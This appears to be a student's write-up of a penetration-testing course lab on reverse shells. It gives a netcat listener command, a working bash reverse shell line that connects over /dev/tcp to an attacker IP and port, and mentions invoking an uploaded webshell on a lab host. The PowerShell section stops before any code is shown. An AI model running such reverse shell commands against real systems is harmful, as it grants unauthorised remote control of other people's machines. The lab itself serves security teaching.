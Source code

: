 # Lab 8.2 - Reverse Shells

💡A reverse shell occurs when we convince the target to connect to the attacker. This vastly simplifies command and control because firewall egress rules are nearly always more permissive than ingress rules. Even so, Windows 10 will present us with a problem.
In the spirit of living off the land, we will spend some time using target native tools (as opposed to uploading or installing nc on the target) to create a command and control channel between the target and kali. The "target" is not actually a pen testing target but just a generic Rocky 8.5 Linux server that we can practice on. Some exercises will leverage our previously exploited systems



## Bash Reverse Shell on Linux

1. Login to sec335-rocky(10.0.17.200) from kali using ssh and your cyber.local credentials.

   `ssh hasan.hashim@cyber@10.0.17.200`

   ![image-20221105233819338](./images/6.png)

   

2. Determine your DHCP address for your kali vm's eth0 (not wg0)

   `ifconfig`

   ![image-20221105234244221](./images/7.png)

3. On Kali, Create a nc listener on 4449/tcp

   `nc -nlvp 4449`

   ![image-20221105234331140](./images/8.png)

4. On Rocky Use a native bash reverse shell to connect back to your listener

   I used the following command to send back connection to our nc:

   `/bin/bash -i >& /dev/tcp/10.0.17.119/4449 0>&1`

   ![image-20221105234838146](./images/9.png)

   ![image-20221105234957003](./images/10.png)

5. Interact with sec335-rocky over your kali nc session.

![image-20221105235235616](./images/11.png)



## Deliverable 1. Run wireshark, create a capture filter on 4449/tcp and capture a command or two entered through the nc session. Provide a screenshot showing the followed tcp stream, similar to the screenshot below.

![image-20221105235741118](./images/12.png)



## Deliverable 2. Try this out on Pippen by leveraging an uploaded webshell or reverse shell on pippen to run a similar command to connect back to a listener. You may need to upload a small shell script to make this happen, particularly if you are using the simple-backdoor.php script. Provide a screenshot similar to the one below that shows you invoking the reverse shell on the target via curl or your web browser and catching the connection on your kali box.

![image-20221106002838435](./images/13.png)



![image-20221106010306299](./images/16.png)

![image-20221106010209947](./images/14.png)

![image-20221106010239928](./images/15.png)



# Windows Powershell Reverse Shell

References: https://book.hacktricks.xyz/shells/shells/windows

The following powershell code is run via cmd.exe. Change ATTACKERIP and ATTACKERPORT to the eth0 IP on kali and port you assigned to a nc listener.





















